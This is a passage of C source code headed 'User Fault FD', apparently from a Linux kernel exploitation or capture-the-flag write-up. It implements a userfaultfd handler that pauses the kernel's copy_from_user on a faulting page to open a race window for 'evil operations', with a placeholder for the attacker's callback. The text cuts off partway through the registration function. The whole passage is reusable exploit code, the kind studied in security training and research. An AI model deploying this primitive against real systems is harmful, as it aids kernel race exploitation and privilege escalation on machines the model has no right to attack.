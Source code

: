 ### User Fault FD

```c
#include "userfaultfd.h"
size_t cand_idx;
char buffer[0x1000];

typedef struct _fault_arg
{
	int fd;
	void* fault_page;
}fault_arg;

void* handler(void *arg_)
{
	fault_arg* arg = (fault_arg*)arg_;
	int uffd = arg->fd;
	void* fault_page = arg->fault_page;
	free(arg);
	// fetch arguments

	puts("[*] handler created");
	struct uffd_msg msg;

	struct pollfd pollfd;
	int nready;
	pollfd.fd = uffd;
	pollfd.events = POLLIN;
	nready = poll(&pollfd,1,-1);
	if (nready != 1)
		errExit("wrong poll return value");
	// this will wait until copy_from_user is called on FAULT_PAGE
	printf("trigger! I'm going to hang\n");
	// now main thread stops at copy_from_user function
	// but now we can do some evil operations!

	// PUT YOUR CALLBACK HERE
	// USE GLOBAL VARIABLE TO PASS ARGUMENT IF WE NEED ARGUMENT HERE
	// e.g. USE `cand_idx` HERE

	if (read(uffd, &msg, sizeof(msg)) != sizeof(msg))
		errExit("error in reading uffd_msg");
	// read a msg struct from uffd, although not used

	struct uffdio_copy uc;
	memset(buffer, 0, sizeof(buffer));
	uc.src = (uintptr_t)buffer;
	uc.dst = (uintptr_t)fault_page;
	uc.len = 0x1000;
	uc.mode = 0;
	ioctl(uffd, UFFDIO_COPY, &uc);
	// resume copy_from_user with buffer as data

	puts("[*] done 1");
	// now note1 has length 0xf0

	return NULL;
}

void* register_userfault()
{
	struct uffdio_api ua;
	struct uffdio_register ur;
```